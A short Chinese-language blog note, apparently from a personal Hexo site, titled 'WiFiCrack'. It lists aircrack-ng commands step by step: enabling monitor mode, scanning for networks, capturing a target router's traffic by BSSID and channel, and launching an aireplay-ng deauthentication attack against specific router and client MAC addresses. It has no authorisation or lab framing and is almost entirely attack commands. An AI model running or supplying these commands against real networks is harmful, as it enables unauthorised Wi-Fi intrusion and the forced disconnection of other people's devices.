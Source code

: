 ```yaml
---
title: WiFiCrack
date: 2019-10-19 19:00:53
categories: 食用笔记
tags:
  - Aircrack-ng
  - Kali Linux
---
```


{% noteblock quote cyan %}

WiFiCrack 笔记。

{% endnoteblock %}

<!-- more -->

## 开启监听

```shell
airmon-ng start wlan0
```

## 扫描信号

```shell
airodump-ng wlan0mon
```

## 选定 Wi-Fi 监听

```shell
airodump-ng wlan0mon -c 11 --bssid BC:46:99:3D:66:D6 -w doc # -w指定生成的文件名 -c指定信道 --bssid指定路由器的MAC地址
```

## 攻击

```shell
aireplay-ng -0 50 -a E2:A5:3E:6B:F7:21 -c 44:C3:46:40:7E:5D   wlan0mon # -0指定发包的数量 -a指定路由器的MAC地址  -c指定连接的客户端的MAC地址
```
